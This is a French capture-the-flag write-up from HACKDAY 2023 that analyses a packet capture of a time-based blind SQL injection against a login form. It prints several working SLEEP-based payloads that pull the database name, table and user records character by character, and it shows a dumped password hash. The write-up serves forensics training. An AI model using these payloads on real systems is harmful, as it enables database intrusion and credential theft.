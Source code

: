 Waiting for love
Write-up HACKDAY 2023
On a un fichier pcap. On voit vite que c’est un échange HTTP. On a une première requête GET /index.html : 
  



Il s’agit d’un simple formulaire de connection
On retrouve ensuite la requête post /login pour du login : 
  

On retrouve ensuite des tentatives d’injections SQL sur le champ login avec des payloads de ce type : 
```text
"login" = "test(',(..((.""
"login" = "test') AND 7126=4660 AND ('xvIk'='xvIk"
```
	

Au bout d’un moment, les requêtes SQL se ressemblent, on peut donc en déduire que l’injection a réussi et que les données sont en train d'être infiltrées, avec ce payload : 
```sql
"login" = "test' AND (SELECT 1467 FROM (SELECT(SLEEP(5-(IF(ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))>64,0,5)))))HDfI) AND 'PhVR'='PhVR"
```
	

On voit qu’il s’agit ici d’un payload de type time-based (SLEEP 5). Mais quelle info est cherchée ? Le nom de la base de données (DATABASE()). Comme l’attaquant est en blind, il est obligé d’ y aller caractère par caractère. L’attaquant utilise l'encodage décimal. Sur ce payload, c’est 64 qui est tenté, soit @. 
________________


L'exécution en blind prend beaucoup de temps, donc l’attaquant a recours à l'utilisation de > et < afin d’aller plus vite. A un moment, on tombe sur ce genre de requête :  
```sql
"login" = "test' AND (SELECT 1467 FROM (SELECT(SLEEP(5-(IF(ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))!=104,0,5)))))HDfI) AND 'PhVR'='PhVR"
```
	

On voit ici qu’il s’agit d’une confirmation pour savoir si le caractère est bien égale à 104. En effet s' il est egale, le temps de réponse sera immédiat et on aura pas le sleep : 
  

On a effectivement un temps de réponse quasi instantané. Le premier caractère est donc 104, soit un h.
On peut alors construire un filtre wireshark custom afin de filtrer uniquement les valeurs de validation : 
```text
urlencoded-form.value contains "!="
```
	

Dans les premier paquets, qui concernent le nom de la base de donnée, on retrouve le nom suivant : hackday


On continue sur cette voie, l’étape suivante d’une sqli consiste à récupérer le nombre de tables. Qu'à cela ne tienne : 

```sql
test' AND (SELECT 1004 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x6861636b646179),1,1))!=49,0,5)))))FDMx) AND 'ekjM'='ekjM
```
	

Cette requête demande le nombre de table présente : un 49, soit 1, donc une seule table.


On continue ensuite avec le nom de cette table : 

```sql
test' AND (SELECT 6092 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(table_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x6861636b646179 LIMIT 0,1),1,1))!=117,0,5)))))rqpd) AND 'zDJe'='zDJe
```

Ici, la première lettre est un 117, soit un u. On peut continuer à recomposer le nom de la table et on obtient users


________________


On continue dans la même logique, avec le nombre de champs  : 
```sql
"login" = "test' AND (SELECT 5667 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(*) AS NCHAR),0x20) FROM hackday.users),1,1))!=50,0,5)))))mEev) AND 'PHOT'='PHOT"
```	


50, un 2


En continuant, on s'aperçoit que la base de données a été entièrement dumpé, et on retrouve un premier compte : 
```text
admin:dfa3be6a14050f4614757b69be608a42
```

Il s’agit d’un md5, qui n’est pas connu, dans rockyou ou dans les autres sites en ligne. 



Mais un second compte est présent : 
```text
test:SEFDS0RBWXtUMU0zXzg0NTNEXzVRTDF9
```
Cette fois, ci, un petit passage dans cyber chef pour nous dire qu’il s’agit de base64, et on a le flag : 
```text
HACKDAY{T1M3_8453D_5QL1}
```
	

Il est tout de même possible de reconstituer toutes les requêtes une par une à la main, mais beaucoup plus lentement.

